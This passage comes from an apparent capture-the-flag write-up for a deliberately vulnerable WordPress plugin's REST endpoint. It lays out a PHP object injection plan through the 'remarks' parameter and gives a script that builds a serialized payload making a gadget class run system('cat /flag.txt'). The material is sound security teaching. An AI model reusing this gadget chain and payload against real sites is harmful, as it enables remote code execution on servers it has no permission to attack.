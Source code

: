 ```php
                'expedition_creation_failed',
                'Failed to create expedition',
                array('status' => 500)
            );
        }

        // Store expedition details as post meta
        $expedition_details = $expedition->getExpeditionDetails();
        foreach ($expedition_details as $key => $value) {
            update_post_meta($post_id, '_expedition_' . $key, $value);
        }

        return rest_ensure_response(array(
            'success' => true,
            'expedition_id' => $post_id
        ));
    }
```

From the results of the analysis above, it can be concluded that I should do PHP Object Injection with flow:

1. Generate PHP Object Injection payload with an inject object $serializer contains an object from Everest_Climbing_Route() i.e. sherpa contains 'system' and route data contains 'cat /flag.txt'
2. Made a request to the REST API "/wp-json/everest/v1/expedition"
3. Request berisi data “name=test&start_date=2023-01-01&end_date=2023-01-02&team_size=1&route=test&remarks=[PAYLOAD]”
4. PHP Object Injection payload in inject on remarks parameters
5. RCE obtained

**Exploit:**\
File generate-serialized-shell.php:

```php
<?php
class Everest_Expedition_Data {}
class Everest_Climbing_Route {}

$climbing_route = new Everest_Climbing_Route();
$climbing_route->sherpa = 'system';
$climbing_route->route_data = 'cat /flag.txt';

// Siapkan objek utama
$expedition_data = new Everest_Expedition_Data();
$expedition_data->serializer = $climbing_route;

echo serialize($expedition_data);
?>
```

Run the serialized shell generator and retrieve the serialized data.
![Generator](/assets/img/Patchstack-S02E03-WCEU-2025/EverestExpedition-generator.png)


[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn